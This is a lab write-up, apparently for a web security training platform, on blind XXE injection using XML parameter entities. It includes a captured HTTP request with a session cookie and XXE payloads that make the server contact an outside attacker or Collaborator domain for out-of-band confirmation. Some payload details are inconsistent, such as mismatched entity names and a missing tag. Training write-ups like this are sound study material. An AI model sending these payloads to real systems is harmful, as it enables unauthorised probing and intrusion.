




# Blind XXE with out-of-band interaction via XML parameter entities

## Lab Description :


## Overview :
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

``<!ENTITY % myparameterentity "my parameter entity value" >``

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

%myparameterentity;
This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

``<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>``

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

## Solution :
Clicking on checkstock feature , browser sends the following request.
```html
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=gwBsRlQTEvY287RWKXKNzyrlafd6MhsP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we will declare a DOCTYPE eith parameterized entitites (%) which contains the url of our collaborator server -``<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %xxe; ]>`` & in that we can reference the parameterized entitiy using - %ext;

Reference - ``https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#basic-blind-xxe``

Payload -
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://sd9y3po3qry9jo5vf4684x8de4ku8j.oastify.com"> %xxe; ]> 
 <productId>% 1</productId>
 <storeId>1</storeId>
</stockCheck>
```


In the response it says that - XML parsing error but it means that the xml parser indeed parsed the xml code and made an outbound request to our collaborator server.



And we've solved the lab !




#### Visit The Next Page For The Next Level :)
